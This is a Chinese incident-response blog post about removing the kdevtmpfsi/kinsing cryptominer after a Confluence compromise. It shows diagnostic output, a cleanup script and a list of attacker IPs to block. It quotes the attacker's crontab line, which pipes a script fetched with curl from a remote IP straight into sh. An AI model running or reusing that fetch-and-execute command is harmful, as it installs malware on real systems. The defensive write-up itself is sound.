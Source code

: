 ```yaml
---
title: 利用 Confluence 漏洞被挂挖矿木马 kdevtmpfsi 后处理方案
date: 2021-09-03
---
```



## 现象

服务器的 CPU 突然被异常进程 `kdevtmpfsi` 占满


## 检查

- 查看异常进程

``` bash
# ps -ef | grep kdevtmpfsi
root      7770 14501  0 23:35 pts/1    00:00:00 grep --color=auto kdevtmpfsi
conflue+ 10346     1 99 13:03 ?        5-05:38:24 /tmp/kdevtmpfsi

# systemctl status 10346
● session-364.scope - Session 364 of user root
   Loaded: loaded (/run/systemd/system/session-364.scope; static; vendor preset: disabled)
  Drop-In: /run/systemd/system/session-364.scope.d
           └─50-After-systemd-logind\x2eservice.conf, 50-After-systemd-user-sessions\x2eservice.conf, 50-Description.conf, 50-SendSIGHUP.conf, 50-Slice.conf, 50-TasksMax.conf
   Active: active (abandoned) since Tue 2021-01-26 02:42:54 EST; 7 months 5 days ago
   CGroup: /user.slice/user-0.slice/session-364.scope
           ├─ 9963 /tmp/kinsing         # Confluence 关联异常进程
           ├─10346 /tmp/kdevtmpfsi      # Confluence 关联异常进程
           ├─14586 /opt/atlassian/confluence/jre//bin/java ...
           └─14851 /opt/atlassian/confluence/jre/bin/java ...

# ll /tmp
...
-rwxr-x---. 1 confluence confluence  3930448 Sep  2 01:48 kdevtmpfsi      # 异常文件 
-rwxrwxrwx. 1 confluence confluence 14643200 Sep  2 01:46 kinsing         # 异常文件
-rwxrwxrwx. 1 confluence confluence    26800 Sep  1 13:02 libsystem.so    # 异常文件
-rw-------. 1 confluence confluence        0 Sep  1 13:02 linux.lock      # 异常文件
...
```

- 异常进程访问了异常/国外 IP

``` bash
# netstat –natp
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
...
tcp        0      0 xx.xx.xx.xx:41302        95.181.179.88:80        ESTABLISHED 10346/kdevtmpfsi   # 95.181.179.88 为国外 IP
...
```

- 异常定时任务

``` bash
# crontab -l -u confluence
* * * * * curl http://195.3.146.118/unk.sh | sh > /dev/null 2>&1
```


## 处理

- 删除异常定时任务
- 删除异常进程
- 设置文件夹访问权限

上述操作可参考以下脚本：

``` bash
crontab -r -u confluence
ps -aux | grep kinsing |grep -v grep |awk '{print $2}'
ps -aux | grep kdevtmpfsi |grep -v grep |awk '{print $2}'
ps -aux | grep kinsing |grep -v grep |awk '{print $11}'
ps -aux | grep kdevtmpfsi |grep -v grep |awk '{print $11}'
ps -aux | grep kinsing |grep -v grep |awk  '{print "rm -rf " $11}' |sh
ps -aux | grep kdevtmpfsi |grep -v grep |awk  '{print "rm -rf " $11}' |sh
ps -aux | grep kinsing |grep -v grep |awk  '{print "kill -9 " $2}' |sh
ps -aux | grep kdevtmpfsi |grep -v grep |awk  '{print "kill -9 " $2}' |sh

rm -rf /var/tmp/kinsing
rm -rf /tmp/libsystem.so
rm -rf /tmp/linux.lock

chmod -R 700 /tmp
chmod -R 700 /var/tmp

find / -name kdevtmpfsi
find / -name kinsing
```

- 禁止服务器访问异常 IP，参考：

```
195.3.146.118
142.44.191.122
185.92.74.42
217.12.221.244
93.189.43.3
185.154.53.140
```

- 关闭 Confluence 外网访问


## 参考

https://www.jianshu.com/p/9699251ad1d7

http://www.pangxieke.com/linux/virus-of-kdevtmpfsi.html

https://paper.seebug.org/884/

https://www.cnblogs.com/zhangjiahao/p/12634930.html

https://www.jianshu.com/p/60bbe86a7b33

https://guanjia.qq.com/news/n3/2581.html

https://www.cnblogs.com/hack404/p/11464890.html
